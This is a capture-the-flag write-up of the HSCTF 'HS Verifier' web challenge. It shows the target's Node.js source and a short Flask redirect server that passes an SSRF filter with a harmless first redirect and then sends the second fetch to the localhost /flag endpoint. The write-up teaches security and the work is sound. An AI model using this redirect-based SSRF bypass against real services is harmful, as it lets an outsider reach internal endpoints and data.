 ```yaml
---
title: "HSCTF - HS Verifier"
date: 2022-05-25
mathjax: true
tags: [hsctf, web]
draft: false
---
```


This challenge was part of a CTF event hosted by [HackerSchool](https://hackerschool.io).

![logo](logo.png)

## Challenge statement

Being a web challenge, a website is provided in the statement, alongside the application's source code and a Dockerfile.

![website](website.png)

The website asks for two links, and after clicking "Go!", displays a diff between the two pages.

{{< figure src="diff.png" caption="Difference between example.com and github.com" >}}

In the source code we can find the following endpoints for the application:

```javascript
app.get('/', (req, res) => {
	res.render('index');
});

app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});

app.post('/diff', async (req, res) => {
	let { url1, url2 } = req.body
	if(typeof url1 !== 'string' || typeof url2 !== 'string'){
		return res.send({error: 'Inválido formato'})
	};
	let urls = [url1, url2];
	for(url of urls){
		const valid = await validifyURL(url);
		if(!valid){
			return res.send({error: `Request to ${url} was denied`});
		};
	};
	const difference = await diffURLs(urls);
	res.render('diff', {
		lines: difference
	});

});
```

From this snippet, it is clear that the objective of the challenge is to somehow get a request to the `/flag` endpoint coming from **localhost**.
This can be achieved by tricking the web server into perform that request through an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability.

## Working the problem

At first it may seem that simply placing "localhost" on one of the main page's inputs, would display the flag in the diff.
However, when attempting that strategy, the server sends back this response:

![denied](denied.png)

This is due to the `validifyURL` function, also provided in the source code:

```javascript
async function validifyURL(url){
	valid = await fetch(url, {agent: ssrfFilter(url)})
	.then((response) => {
		return true
	})
	.catch(error => {
		return false
	});
	return valid;
};
```

There is an SSRF filter implemented, which blocks any requested directed to itself. Providing the public IP also doesn't work.
The solution is to somehow provide a link that passes the SSRF filter, but still makes a call to localhost when performing the diff.
Note that the response from the SSRF filter is ignored.
This means that the application must make another request in order to perform the diff, as is confirmed in the `diffURLs` function.

```javascript
async function diffURLs(urls){
	try{
		const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
		const pageTwo = await fetch(urls[1]).then((r => {return r.text()}));
		return Diff.diffLines(pageOne, pageTwo)
	} catch {
		return 'error!'
	}
};
```

## Solution

By providing a link to a controlled server, it is possible to redirect the SSRF filter's request to a valid URL and then redirect the next request to localhost.
A way to achieve this is through a simple [Flask](https://flask.palletsprojects.com/en/2.1.x/) application:

```python
from flask import Flask, redirect, g


app = Flask(__name__)

local = False

@app.route('/')
def index():
    global local
    if not local:
        local = True
        return redirect("https://github.com")
    else:
        return redirect("http://127.0.0.1/flag")



app.run('0.0.0.0', 5000)
```

Providing this web server's link to the site will display the flag on the page.

{{< alert >}}
**NOTE**: with this implementation, only one of the links can point to the flask application
{{< /alert >}}

{{< figure src="flag.png" caption="The censored flag is shown at the bottom of the page" >}}
